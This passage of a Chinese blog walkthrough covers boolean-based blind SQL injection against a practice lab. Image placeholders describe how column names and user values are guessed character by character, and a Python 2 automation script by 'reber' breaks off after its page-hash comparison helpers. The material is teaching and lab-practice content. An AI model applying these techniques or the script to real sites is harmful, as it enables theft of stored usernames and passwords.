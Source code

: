 #### 得到列名
> {{% fluid_img src="/img/post/sqli8_get_column_num.png" alt="猜解有几列.png" %}}
<br /><br />
{{% fluid_img src="/img/post/sqli8_get_column_name_len.png" alt="猜解users表第2列列名的长度.png" %}}
<br /><br />
{{% fluid_img src="/img/post/sqli8_get_column_name_one_char.png" alt="猜测users表第2列列名的第1个字符.png" %}}
```
同理最终得到第2列列名为username，第3列列名为password
```

#### 得到列值
> {{% fluid_img src="/img/post/sqli8_get_column_value_num.png" alt="猜解数据条数.png" %}}
<br /><br />
{{% fluid_img src="/img/post/sqli8_get_column_value_len.png" alt="猜解第13条数据username字段值的长度.png" %}}
<br /><br />
{{% fluid_img src="/img/post/sqli8_get_column_value_char.png" alt="猜解第13条数据username字段值的前两个字符.png" %}}<br />
```
依次得到为admin4，同理可得其他数据
```

### 0x04 附上python脚本
> ```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-  

__author__="reber"

import sys
import urllib
import urllib2
import binascii
import hashlib
from pyfiglet import figlet_format
from optparse import OptionParser


def get_md5_html(url):
    response = urllib2.urlopen(url)
    html = response.read()

    m2 = hashlib.md5()
    m2.update(html)
    md5_html = m2.hexdigest()

    return md5_html

def getAllDatabases(url):
	# global aa
    # print "getAllDatabases"
    # print url
    standard_md5 = get_md5_html(url)
    # print standard_md5
